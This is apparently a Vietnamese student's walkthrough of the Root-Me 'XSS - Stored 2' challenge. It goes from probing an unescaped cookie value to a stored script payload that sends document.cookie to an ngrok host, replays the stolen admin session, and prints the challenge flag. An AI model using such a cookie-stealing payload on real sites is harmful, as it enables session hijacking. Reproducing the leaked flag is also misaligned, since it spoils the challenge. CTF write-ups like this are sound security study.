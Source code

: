 # Challenge: XSS - Stored 2
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 120 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2

- Ta thử với các input kiểm tra có bị lỗi XSS cơ bản không
<p align="center"><img src="./images/6.1.png"></p>
- Kiểm tra mã nguồn thì ta thấy những giá trị nhập vào đều được chuyển đổi các kí tự đặc biệt, do vậy ta có thể khai khác được lỗi XSS từ đây
<p align="center"><img src="./images/6.2.png"></p>
- nhìn source code ta thấy 1 giá trị invite? trước thẻ html render ra input ta đã nhập, Kiểm tra kĩ thì ta thấy được rằng nó là giá trị của cookie status
<p align="center"><img src="./images/6.3.png"></p>
<p align="center"><img src="./images/6.4.png"></p>
<p align="center"><img src="./images/6.5.png"></p>

- Thử với giá trị `status=<h1>Nguyen Ngoc Truong</h1>`, ta thấy giá trị của nó trong thuộc tính của thẻ i không bị chuyển đổi kí tự đặc biệt

<p align="center"><img src="./images/6.6.png"></p>
<p align="center"><img src="./images/6.7.png"></p>

- Ta tiến hành đóng thẻ i thử, khi đó thử với status=`"><h1>LAo Ngoc 2k1</h1>`, ta thấy nó có sự thay đổi về giao diện. thẻ h1 được render
<p align="center"><img src="./images/6.8.png"></p>

- Vì mình cần lấy ra cookie do vậy ta thử với `"><script>alert(document.cookie)</script>` lúc này ta nhận được thông báo.
<p align="center"><img src="./images/6.9.png"></p>

- Thay đổi status `= "><script>document.location="http://1173-113-161-73-246.ngrok.io/?cookie="+document.cookie</script>`ta khi tải lại trang, ta thấy trang web của challenge tự chuyển hướng sang trang web của chúng ta.
<p align="center"><img src="./images/6.10.png"></p>
- Chờ đợi và nhận Cookie của Admin
<p align="center"><img src="./images/6.11.png"></p>
- Trong challenge có nó chúng ta cần truy cập với phiên admin, do vậy chúng ta thêm cookie đã lấy được và truy cập lại trang web, nhấn vào admin ta sẽ thấy được pass
<p align="center"><img src="./images/6.12.png"></p>

## Kết quả flag là `E5HKEGyCXQVsYaehaqeJs0AfV`